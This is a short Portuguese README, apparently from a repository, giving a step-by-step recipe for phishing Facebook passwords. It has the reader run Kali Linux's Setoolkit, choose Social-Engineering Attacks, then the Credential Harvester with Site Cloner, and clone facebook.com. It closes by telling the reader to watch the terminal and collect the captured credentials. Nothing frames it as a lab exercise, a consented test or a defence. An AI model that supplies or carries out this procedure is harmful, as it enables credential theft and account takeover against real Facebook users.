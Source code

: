 # Phishing para captura de senhas do Facebook

### Ferramentas Utilizadas
- **Kali Linux**
- **Setoolkit**

### Configuração do Phishing no Kali Linux

1. **Acesso Root**  
   Para obter permissões de administrador, execute o comando:  
   ```bash
   sudo su
   ```

2. **Iniciando o Setoolkit**  
   Inicie o Setoolkit com o comando:  
   ```bash
   setoolkit
   ```

3. **Seleção do Tipo de Ataque**  
   Escolha a opção:  
   ```
   Social-Engineering Attacks
   ```

4. **Definição do Vetor de Ataque**  
   Selecione:  
   ```
   Web Site Attack Vectors
   ```

5. **Escolha do Método de Ataque**  
   Utilize o método:  
   ```
   Credential Harvester Attack Method
   ```  
   Em seguida, selecione:  
   ```
   Site Cloner
   ```

6. **Obtenção do Endereço IP da Máquina**  
   Para obter o endereço IP da máquina, execute:  
   ```bash
   ifconfig
   ```

7. **Inserção da URL para Clonagem**  
   Insira a URL do site que deseja clonar, por exemplo:  
   ```
   http://www.facebook.com
   ```

### Resultados
Após a configuração, os dados capturados serão exibidos no terminal. Certifique-se de monitorar os resultados para coletar as credenciais.

![Alt text](./passwd.png "Optional title")
